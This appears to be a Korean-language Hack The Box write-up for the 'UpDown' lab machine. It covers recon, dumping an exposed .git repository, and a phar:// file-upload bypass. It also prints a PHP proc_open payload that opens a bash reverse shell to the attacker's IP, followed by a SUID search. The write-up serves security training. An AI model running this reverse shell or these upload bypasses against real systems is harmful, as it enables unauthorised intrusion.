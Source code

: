 ```yaml
---
layout: post
title: HackTheBox UpDown
subtitle: UpDown WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-17-UpDown/1a290611f444e0d251233ed971a4f9f7_MD5.jpeg)
## Target - 10.129.227.227
### Nmap
```bash
nmap -sC -sV -Pn -p- 10.129.227.227 -o UpDown_AllPort
```

### WEB
```bash
# 호스트 등록
echo "10.129.227.227 siteisup.htb" | sudo tee -a /etc/hosts

# 디렉토리 탐색
gobuster dir -u siteisup.htb -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://siteisup.htb/dev -w /usr/share/wordlists/dirb/common.txt

# 서브도메인 탐색
gobuster vhost -u http://siteisup.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain

# 서브도메인 호스트 등록
echo "10.129.227.227 dev.siteisup.htb" | sudo tee -a /etc/hosts

# git dump
git-dumper http://siteisup.htb/dev/.git dev

# config 보기
cat .htaccess
```

![](/assets/images/posts/2025-03-17-UpDown/284ba3fd6ad877528a4f3670a2f6ce5b_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/3dad85a3644415a5b33e41cbffc9aec7_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/a41302bb81f42bed44f2386fe38e06c2_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/caba1c0c482717b28220a2be17b2c742_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/fb818fef54497e9853afd3ea110a3218_MD5.jpeg)![](/assets/images/posts/2025-03-17-UpDown/3081fbcce96767472ac559c5c7d2bcd1_MD5.jpeg)

### phar:// Exploit
```bash
# 파일 필터링 로직 및 upload 경로 확인
cat checker.php

echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt

http://dev.siteisup.htb/?page=phar://uploads/a4cb7397e7c127125e4af8261d1c8fef/info.txt/info
```
![](/assets/images/posts/2025-03-17-UpDown/bf7036a51a5414ccfef2e795f8a45153_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/4fcc8fc91aad8d6b18d28968e621f56c_MD5.jpeg)
### dfunc-bypasser.py
```bash
# vi dfunc-bypasser.py 수정
phpinfo = requests.get(url, headers={"Special-dev":"only4dev"}).text

# 실행
python dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/11d0d701df649f7c93b673db37e5c66b/info.txt/info
```
![](/assets/images/posts/2025-03-17-UpDown/a031fa0acd34384e5287aa7bf3cf36fd_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/7e35d58b12f926a49afde5d26ee81e62_MD5.jpeg)
### proc_open Exploit
```php
# poc.php
<?php 
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin 
1 => array('pipe', 'w'), // stdout 
2 => array('pipe', 'a') // stderr 
); 
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/9999 0>&1'"; 
$process = proc_open($cmd, $descriptorspec, $pipes, null, null); 
?>
```

```bash
zip poc.zip poc.php
mv poc.zip poc.txt

http://dev.siteisup.htb/?page=phar://uploads/3a6182d84b5c185244868a879af73f68/poc.txt/poc
```


### Privilege Escalator
```bash
find / -user devel -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```